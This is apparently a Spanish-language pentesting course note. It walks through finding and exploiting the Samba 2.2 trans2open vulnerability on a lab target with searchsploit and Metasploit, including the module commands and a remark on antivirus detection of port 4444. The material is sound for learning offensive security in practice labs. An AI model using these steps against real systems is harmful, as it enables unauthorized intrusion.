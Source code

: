 # 3 - First Explotation

Hype

Recordando las notas vimos que teniamos un objetivo con SAMBA 2.2 

Buscamos eso con

```text
$ searchexploit samba 2.2    
```

![](../../../.gitbook/assets/imagen%20%28298%29.png)

Notar como se repite varias veces el "trans2open" eso es buena señal de que tenemos un potencial ataque presente

## Desde **metasploit**

```text
search trans2open
```

![](../../../.gitbook/assets/imagen%20%28295%29.png)

Recordar que vimos que corria linux de fondo asi que tenemos esto

```text
use 1
options 
set rhost ip vulnerable
show targets
exploit //o run pero no es tan fachero
```

![](../../../.gitbook/assets/imagen%20%28294%29.png)

Ahora al correr eso lo intenta pero falla en el proceso. Algo sucede con el payload asi que metasploit nos da una nueva opcion para manejar el mismo payload: **payload options**

![](../../../.gitbook/assets/imagen%20%28296%29.png)

Los 4444 en la vida real son atrapados por antivirus ya que son comunes para este tipo de ataques, para esto no importa mucho.

![](../../../.gitbook/assets/imagen%20%28293%29.png)

![WE WON](../../../.gitbook/assets/imagen%20%28292%29.png)



\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*


